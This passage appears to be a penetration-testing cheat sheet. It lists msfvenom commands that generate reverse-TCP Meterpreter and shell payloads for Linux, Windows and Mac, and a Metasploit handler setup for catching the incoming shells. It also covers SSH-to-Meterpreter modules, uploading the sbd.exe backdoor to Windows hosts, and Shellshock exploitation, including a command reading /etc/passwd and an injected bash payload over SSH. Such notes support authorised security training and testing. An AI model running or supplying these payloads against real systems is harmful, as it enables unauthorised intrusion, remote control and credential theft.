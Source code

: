       *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z

      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

-   SBD.exe

     sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
     sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

-   Shellshock

    -   Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    -   git clone https://github.com/nccgroup/shocker

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    -   Shell Shock SSH Forced Command
        Check for forced command by enabling all debug output with ssh

              ssh -vvv
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

